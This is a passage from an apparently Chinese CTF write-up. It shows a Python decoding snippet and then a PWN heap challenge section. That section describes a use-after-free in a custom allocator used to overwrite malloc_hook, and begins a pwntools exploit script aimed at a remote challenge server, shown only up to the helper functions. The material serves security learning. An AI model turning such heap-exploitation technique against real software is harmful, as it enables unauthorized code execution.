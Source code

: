 ```python
for i in range(10):
    re.append((s.find(res[i])-s.find(ff[i]))%len(s))
re = [16, 30, 17, 16, 17, 50, 52, 6, 7, 45]
re = re+re[::-1]
print(re)
ans = ''
for i in range(len(res)):
    ans += s[(s.find(res[i])-re[i%20])%len(s)]
print(ans)
```

#### 

# PWN

#### 

#### <strong>heap</strong>

题目手写了一个全新的堆管理器，要从零开始看源码找漏洞了。

可以堆溢出，有 malloc_hook 和 free_hook，分配的 chunk 都在 libc 的开头。

对于相同大小的 0x80 以下的 chunk，所有 chunk 通过一个链表连起来。free chunk 通过另一个 chunk 连起来。

类 fastbin 里有漏洞，在申请了链上一个 chunk 之后会直接把下一个 chunk 的地址写在 bss 上，下次会直接把这个申请走，没有任何检查。UAF 一下就能任意地址申请堆。

改 mallochook 为给出的 getflag 函数即可

```python
from pwn import*
context(os='linux', arch='amd64', log_level='debug')
MENU_END = "> "
def add(siz):
    p.recvuntil(MENU_END)
    p.sendline("1")
    p.recvuntil(": ")
    p.sendline(str(siz))

def fre(idx):
    p.recvuntil(MENU_END)
    p.sendline("2")
    p.recvuntil(": ")
    p.sendline(str(idx))

def edi(idx,cot):
    p.recvuntil(MENU_END)
    p.sendline("3")
    p.recvuntil(": ")
    p.sendline(str(idx))
    p.recvuntil(": ")
    p.send(cot)

def sho(idx):
    p.recvuntil(MENU_END)
    p.sendline("4")
    p.recvuntil(": ")
    p.sendline(str(idx))

def exi():
    p.recvuntil(MENU_END)
    p.sendline("5")

p = process("./heap")
p = remote("8.130.129.179",20199)
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
```